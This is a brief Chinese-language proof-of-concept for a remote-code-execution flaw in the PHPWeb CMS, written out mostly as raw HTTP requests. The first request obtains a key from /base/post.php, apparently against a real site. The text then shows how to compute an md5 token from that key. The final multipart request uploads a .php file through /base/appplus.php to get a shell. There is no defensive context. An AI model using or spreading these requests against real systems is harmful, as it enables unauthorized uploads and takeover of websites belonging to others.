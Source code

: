 # PHPWEB RCE

---
#### 1.首先，先post发包获取值

---
```
POST /base/post.php HTTP/1.1
Host: www.sdyycm.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
```
---
> act=appcode
---
#### 2.获取    `k=504871bc9e70a836ae5ee70e69bde615&t=1578585276`  k的值

>    然后md5加密32位k的值+a  `504871bc9e70a836ae5ee70e69bde615a(504871bc9e70a836ae5ee70e69bde615+a` 加密之后的值为  `d950d53f648925e1c5ce8dc8bd6e8181`之后post包getshell ,post包m字段内容就是这个md5加密之后的值

### poc

---

```
POST /base/appplus.php HTTP/1.1
Host: www.xx.com
Content-Length: 711
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary92Ek3CIGduLPoRLt
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="file"; filename="123.php"
Content-Type: application/octet-stream

asdasda
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="t"

a
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="m"

d950d53f648925e1c5ce8dc8bd6e8181
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="act"

upload
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="r_size"

7
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="submit"

getsell
------WebKitFormBoundary92Ek3CIGduLPoRLt--
```
